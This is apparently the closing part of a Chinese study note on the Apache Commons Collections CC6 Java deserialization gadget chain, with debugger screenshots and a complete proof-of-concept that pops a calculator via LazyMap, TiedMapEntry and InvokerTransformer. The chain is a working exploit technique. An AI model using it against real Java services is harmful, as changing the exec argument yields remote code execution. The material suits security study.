 <img width="2404" height="1470" alt="image" src="https://github.com/user-attachments/assets/51980fdb-98e3-4ef4-9869-5750cc76708e" />

之后就成功进入到了if判断里面，调用了factory.transform

<img width="2404" height="1470" alt="image" src="https://github.com/user-attachments/assets/703bb152-49c5-4bfd-9059-f81021dc4f53" />

成功执行代码，弹出计算器

<img width="2404" height="1470" alt="image" src="https://github.com/user-attachments/assets/74f94b1b-58a8-4335-8a32-e18bc9064d9f" />


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap();
        Map<Object, Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "hahaha");
        HashMap hashMap = new HashMap();
        hashMap.put(tiedMapEntry, "123");
        lazyMap.remove("hahaha");

        Class c = LazyMap.class;
        Field factory = c.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        unserialize("ser.bin");





    }


    public static void serialize(Object object) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(object);
    }

    //反序列化方法
    public static void unserialize(String filename) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));
        objectInputStream.readObject();
    }



参考链接：
https://www.bilibili.com/video/BV1yP4y1p7N7
https://blog.csdn.net/qq_45305211/article/details/142422443











